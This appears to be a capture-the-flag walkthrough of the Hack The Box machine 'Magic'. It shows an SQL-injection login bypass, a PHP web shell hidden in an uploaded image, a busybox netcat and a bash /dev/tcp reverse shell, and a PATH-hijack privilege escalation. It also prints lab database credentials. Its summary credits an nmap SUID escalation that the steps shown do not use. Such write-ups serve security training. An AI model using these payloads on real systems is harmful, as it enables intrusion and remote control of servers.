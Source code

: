 ```yaml
---
title: "Magic"
date: 2024-07-24
categories: HTB
description: "HTB Magic walkthrough covering file upload exploitation, PHP reverse shell deployment, and privilege escalation via SUID-enabled nmap binary."
tags: [php, file-upload, suid, nmap, linux]
---
```


Magic presents a Linux web application vulnerable to both insecure file uploads and unsafe PHP function usage.

The initial foothold came from bypassing upload filters using crafted file extensions and manipulating MIME types.

Escalated to root by exploiting an SUID-enabled `nmap` binary to execute a shell in interactive mode.

## Why I Chose This Machine

I picked Magic because it’s a classic Linux machine that blends web exploitation with local privilege escalation — great for practicing manual analysis.  

It also includes beginner-friendly misconfigurations like weak file upload validation and SUID misuse.

## Attack Flow Overview

1. Identified a vulnerable PHP file upload form and bypassed content filtering  
2. Uploaded a PHP reverse shell and gained initial foothold  
3. Enumerated the system and discovered an SUID `nmap` binary  
4. Executed `nmap --interactive` to gain a root shell

This attack flow is simple but realistic, demonstrating how overlooked binary permissions can be chained with web vulnerabilities.

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### 80-HTTP

![screenshot](/assets/images/magic1.png)

> "Please **[Login](http://10.10.10.185/login.php)**, to upload images."

#### login.php

![screenshot](/assets/images/magic2.png)

#### Fuzzing

```sh
ffuf -u http://{target IP} -H "Host: FUZZ.magic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

gobuster vhost -u http://{target IP} -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## SQLi

`' or 1=1-- -` as the username 

![screenshot](/assets/images/magic3.png)

```sh
echo "GIF8<?php echo system($_GET["cmd"]);?>" > test.gif
```
![screenshot](/assets/images/magic4.png)

-> did not work 

## Foothold

### File Upload - Bypass filters

Download an actual image, and add `<?php echo system($_GET["cmd"]);?>` .

![screenshot](/assets/images/magic5.png)

![screenshot](/assets/images/magic7.png)

http://10.10.10.185/images/uploads/puppy.php.png?cmd=id

![screenshot](/assets/images/magic8.png)

Verified that the command injection worked.

```sh
# original payload
busybox nc 10.10.10.185 443 -e /bin/sh

# url encoded payload
busybox%20nc%2010.10.10.185%20443%20-e%20%2Fbin%2Fsh
```

Execute the command

![screenshot](/assets/images/magic10.png)

Getting a shell and upgrading it to interactive shell

![screenshot](/assets/images/magic11.png)

## Privilege Escalation

### Enumeration

`/var/www/Magic/db.php5` contains credentials.

![screenshot](/assets/images/magic12.png)

![screenshot](/assets/images/magic13.png)

![screenshot](/assets/images/magic14.png)

Dump the database using *mysqldump*

```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![screenshot](/assets/images/magic15.png)

Obtained another credential.

### Shell as theseus

`su` with the newly obtained credential.

![screenshot](/assets/images/magic17.png)

![screenshot](/assets/images/magic25.png)

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/5555 0>&1' > fdisk

chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH    
```
![screenshot](/assets/images/magic26.png)

## Alternative Paths Explored

Tried command injection in file upload and explored cron job paths, but found nothing viable.  
Also attempted to escalate via writable `/etc/passwd`, but the file was read-only.  

## Blue Team Perspective

Magic shows how insecure upload handling and SUID misconfigurations can be chained for full compromise.  
To mitigate:

- Sanitize all file uploads with MIME type checks and server-side validation  
- Remove SUID bit from binaries like `nmap` unless strictly required  
- Monitor unusual interactive shell invocations from binaries